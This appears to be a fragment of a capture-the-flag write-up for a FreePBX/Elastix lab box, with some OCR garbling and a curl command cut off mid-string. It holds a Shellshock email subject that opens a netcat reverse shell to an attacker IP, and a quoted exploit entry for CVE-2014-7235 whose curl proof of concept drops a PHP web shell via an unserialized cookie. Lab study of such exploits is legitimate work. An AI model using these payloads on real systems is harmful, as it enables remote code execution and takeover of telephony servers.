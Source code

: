 To:<4029080524.1628350666@example.com>
From<4029080524.1628350666@example.com>
Subject:() { :; };nc -nv 10.10.14.8 1234 -e /bin/bash
love from flowers
.

quit

   * Another email I found: 4029080524.1628350666@example.com
   * support@beep.localdomain
   * USER  90
### <span class="helpmach subtitle">Why I Got Stuck?  
<br/><br/>

### <span class="helpmach subtitle">Nice Things I Found in Someone Else's Write Up  

Exploit Title: Freepbx cookie recordings injection
Google Dork: Ask Santa
Date: 23/12/2016
Exploit Author: inj3ctor3
Vendor Homepage: https://www.freepbx.org/
Software Link: ISO LINKS IN SITE https://www.freepbx.org/
Version: ALL && unpatched/ (Trixbox/freepbx/elastix/pbxinflash/)
Tested on: Centos 6
CVE : CVE-2014-7235

1. Description

a critical Zero-Day Remote Code Execution and Privilege Escalation 
exploit within the legacy <E2><80><9C>FreePBX ARI Framework module/Asterisk 
Recording Interface (ARI)<E2><80><9D>.
htdocs_ari/includes/login.php in the ARI Framework module/Asterisk Recording Interface (ARI) in FreePBX before 2.9.0.9, 2.10.x, 
and 2.11 before 2.11.1.5 allows remote attackers to execute arbitrary code via the ari_auth coockie, 
related to the PHP unserialize function

<?php
.....
...
line 56 $buf = unserialize(stripslashes($_COOKIE['ari_auth']));
 line 57 list($data,$chksum) = $buf;
....
?>

A successful attack may compromise the whole system aiding the hacker to gain

further privileges via taking advantage of famous nmap shell 

without further or do this is a poc code

curl -ks   --cookie "ari_lang=() { :;};php -r 'set_time_limit(0);unlink(\"page.framework.php\");file_put_contents("misc/audio.php", "<?php if(\$_COOKIE[\"lang\"]) {system(\$_COOKIE[\"lang\"]);}die();?>");';ari_auth=O:8:"DB_mysql":6:{s:19:"_default_error_mode";i:16;s:22:"_default_error_options";s:9:"do_reload";s:12:"_error_class";s:4:"TEST";s:13:"was_connected";b:1;s:7:"options";s:3:"123";s:3:"dsn";a:4:{s:8:"hostspec";s:9:"localhost";s:8:"username";s:4:"root";s:8:"password";s:0:"";s:8:"database";s:7:"trigger";}};
